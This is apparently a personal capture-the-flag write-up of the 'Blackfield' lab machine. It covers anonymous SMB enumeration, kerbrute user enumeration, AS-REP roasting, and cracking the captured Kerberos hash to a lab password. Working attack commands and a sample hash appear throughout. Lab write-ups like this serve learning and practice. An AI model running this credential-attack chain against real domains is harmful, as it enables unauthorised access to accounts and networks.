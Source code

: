 
```
smbclient -L 10.10.10.192 -U 'anonymous'
```
![[Pasted image 20231117113545.png]]
We are only able to access profiles$ through SMB with anonymous login for now
```
prompt off
recurse on
ls
mget *
```

I think this is the list of users in the profile directory so i have copied everything in a txt file
```
for d in ./*;do [[ -d "$d" ]] && echo "${d##./}" >> dir.txt; done
```
So let's run this list in the kerbute to check my theory if the users are valid or not.

```

```

```
enum4linux -a 10.10.10.192
Domain Name: BLACKFIELD                                                        
Domain Sid: S-1-5-21-4194615774-2175524697-3563712290
```

As Port 88 is open (i.e. aka kerberos ) so it's good to run kerbrute to see if we can have any valid users
```
kerbrute userenum -d blackfield.local --dc 10.10.10.192 userlist.txt -t 100
```

![[Pasted image 20231117121845.png]]

Yup i got more valid users
![[Pasted image 20231117121955.png]]
```
audit2020@blackfield.local
support@blackfield.local
svc_backup@blackfield.local
Administrator@blackfield.local
administrator@blackfield.local
guest@blackfield.local
LYDERICLEFEBVRE@BLACKFIELD.LOCAL
```

So a service is running it's worth to see if we can get a kerbos ticket hash out of it or not.
No we are not able to get the service ticket this time
```
GetNPUsers.py -dc-ip 10.10.10.192  blackfield.local/svc_backup -no-pass
```
![[Pasted image 20231117125042.png]]
Let's try with audit as it seems juicy to me
This way don't seems to be working but i have seems another way when enumerating Forest

AS-REP Roasting
AS-REP Roasting with GetNPUsers which does not require a preauthentication
```
GetNPUsers.py blackfield/ -usersfile userlist.txt -format john -dc-ip 10.10.10.192
```
I have pasted all the users in the userlist and gues what we got the hash
```
$krb5asrep$support@blackfield.local@BLACKFIELD:f95ca094d00fd53e25018957c9fef261$71f916d8dcc4fd660bb810696617786ec4731560ef6836aed49a7033d0cc94b5d34c8777db47b128521e56b7b06f66197e60b77cb14e409c091a9e715039851eb6fbc9f952b8963e0e8fd5f0825479b376438c5cfddd48290a627ff1a8c8eba7de79b6298e28895c5d20f41e1a5ef7b151a8427eb8a926108f917079232a89b1e25b197e573b570cc944520e040375f0077e347b5a5179b078c5f3eb2a85fb8e1878247b9e1530553c1ba241a8887c3e1706171074f172b14b3d23fe9d1f46e37857bf0e38e47177e35ca9b0ac09f80d9255419c356b39ca9923a23c8231aba9812d624a97f825c332ff38bee6be
```
![[Pasted image 20231117125339.png]]

So now we have password let's see if we can use that password to login with another user and see which share we can access using this userid and password
See the hash carefully and got to know that we got the hash for support user and not audit user.
```
support
#00^BlackKnight
```

Let's crack the hash
```
hashcat --help | grep Kerberos
```
![[Pasted image 20231117125521.png]]
as the type was not mentioned so i decided to test every type till we don't get the error for mismatch.

```
.\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20231117130526.png]]
So we were to crack the hash successfully.


Let's see the port 5985 that's bugging me out . We have a list of valid users let's see what we can do now with it

